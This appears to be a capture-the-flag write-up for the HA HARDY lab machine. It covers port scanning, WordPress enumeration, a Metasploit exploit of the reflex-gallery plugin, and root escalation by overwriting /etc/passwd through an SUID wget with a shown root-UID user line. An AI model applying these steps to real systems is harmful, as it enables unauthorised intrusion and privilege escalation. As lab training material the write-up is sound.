 ```yaml
---
title: HA HARDY
categories: [Proving Grounds Play]
tags: [Metasploit, Public Exploit, SUIDs, wget, Wordpress, PrivEsc]
image:
  path: https://miro.medium.com/v2/resize:fit:1200/1*fiNtXsFnX5MR7BPQV_wBvg.png
  alt:  HA HARDY Machine 🖥️
---
```



## Lets Check the IP address of the victim machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled.png)

```
{: .nolineno}
IP : 10.0.2.36
```
{: .nolineno}

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.36
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-26 21:19 IST
Nmap scan report for 10.0.2.36
Host is up (0.00060s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 08:00:27:D4:FE:FC (Oracle VirtualBox virtual NIC)
```
{: .nolineno}

## Web Enumeration ⬇️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%201.png)

got a directory —> `/wordpress/` 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%202.png)

with wpscan tool I got 2 users ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%203.png)

I also found a vulnerability through wpscan in `reflex-gallery plugins` of wordpress so lets exploit it now >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%204.png)

Now with metasploit I exploit this >>

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%205.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%206.png)

Now lets run this ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%207.png)

Now lets look into `wp-config.php` file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%208.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%209.png)

Now let’s see the SUID’s files ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2010.png)

So I think with this I will copy the /etc/passwd file , access with wget and modify with new user addon.

Now let’s access the passwd file in attackers machine ⤵️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2011.png)

Now lets add a user named as `shiv` and `password`as password in passwd file. 

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2012.png)

Lets see the passwd file ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/ha_hardy]
└─$ cat passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
raj:x:1000:1000:raj,,,:/home/raj:/bin/bash
mysql:x:122:128:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:124:65534::/run/sshd:/usr/sbin/nologin
shiv:$1$salt$qJH7.N4xYta3aEG/dfqo/0:0:0::/root:/bin/bash
```
{: .nolineno}

Now let’s transfer this file ➡️

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2013.png)

![Untitled](/Vulnhub-Files/img/HA-HARDY/Untitled%2014.png)

```bash
root@ubuntu:~# cat proof.txt
cat proof.txt
_________________________________________________________________________
 _____     _   _   U _____ u     U _____ u   _   _       ____     	|	
 |_ " _|   |'| |'|  \| ___"|/     \| ___"|/  | \ |"|     |  _"\   	|
   | |    /| |_| |\  |  _|"        |  _|"   <|  \| |>   /| | | |  	|	
  /| |\   U|  _  |u  | |___        | |___   U| |\  |u   U| |_| |\ 	|
 u |_|U    |_| |_|   |_____|       |_____|   |_| \_|     |____/ u 	|
 _// \\_   //   \\   <<   >>       <<   >>   ||   \\,-.   |||_    	|
(__) (__) (_") ("_) (__) (__)     (__) (__)  (_")  (_/   (__)_)   	|
									|
									|
!! Congrats you have finished this task !!				|
									|
Contact us here:							|
									|
Hacking Articles : https://twitter.com/rajchandel/			|
									|
									|
+-+-+-+-+-+ +-+-+-+-+-+-+-+						|
 |E|n|j|o|y| |H|A|C|K|I|N|G|						|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+						|
________________________________________________________________________|

                                                

root@ubuntu:~#
```